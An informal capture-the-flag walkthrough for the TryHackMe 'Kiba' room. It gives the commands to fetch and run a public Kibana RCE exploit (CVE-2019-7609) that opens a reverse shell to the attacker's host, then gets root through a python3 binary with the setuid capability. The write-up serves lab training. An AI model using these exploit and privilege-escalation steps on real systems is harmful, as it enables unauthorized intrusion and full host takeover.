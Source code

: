 # Kiba
tryhackme.com/room/kiba

#### Nmap

    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    | 2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
    |   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
    |_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

and we got another port thats 5601 kibana 

searching google for kibana rce exploit and got this one 
https://github.com/mpgn/CVE-2019-7609

    wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/master/CVE-2019-7609-kibana-rce.py

then run this

    pyhton CVE-2019-7609-kibana-rce.py -u http://10.10.188.47:5601 -host <your vpn> -port 1234 --shell

kabooom we got reverse shell.....

    cat /home/kiba/user.txt

thennnn go for privesc using Capabilities 

what is Capabilities 

Linux divides these privileges into distinct units, known as capabilities. These capabilities can be added to an executable, which will give any user running that executable the specific superuser privilege defined by the capability

ls -la in kiba we have got dir like .hackmeplease then cd to the dir we got python3 ahhh this is executable to capabilities

then searching into google like 

Exploiting capability using python3

Assuming an intruder has compromised the host machine as local user and spawn the least privilege shell and he looked for system capabilities and found empty capability (ep) over suid is given python3 for user demo that means all privilege is assigned to user for that program, therefore taking advantage of this permission he can escalate into high privilege from low privilege shell.

    getcap -r / 2>/dev/null
    cd .hackmeplease
    ls -al python3
    ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    id
    cat /root/root.txt

Booomm root.....

